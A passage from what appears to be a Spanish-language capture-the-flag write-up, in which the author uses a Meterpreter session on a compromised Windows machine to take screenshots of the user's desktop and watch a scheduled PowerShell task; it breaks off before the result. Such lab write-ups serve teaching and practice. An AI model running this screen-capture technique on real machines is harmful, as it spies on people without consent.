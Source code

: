 Vamos a probar a hacer una captura de pantalla.
```console
(Meterpreter 1)(C:\) > screenshot
Screenshot saved to: /home/pointedsec/Desktop/QOZjLPyJ.jpeg
```

Y vemos que esta no tiene un peso de 0 Bytes.
```console
$ ls -la QOZjLPyJ.jpeg 
-rw-r--r-- 1 pointedsec pointedsec 65493 sep  6 22:43 QOZjLPyJ.jpeg
```

Vemos que el usuario estaba escribiendo algo en una powershell.
![Write-up Image](images/Screenshot_10.png)

Como es un CTF obviamente existe una tarea por detrás que se ejecuta cada X tiempo. Esta tarea se ejecuta cada minuto, así que si esperamos un minuto y vamos sacando capturas encontramos lo siguiente.
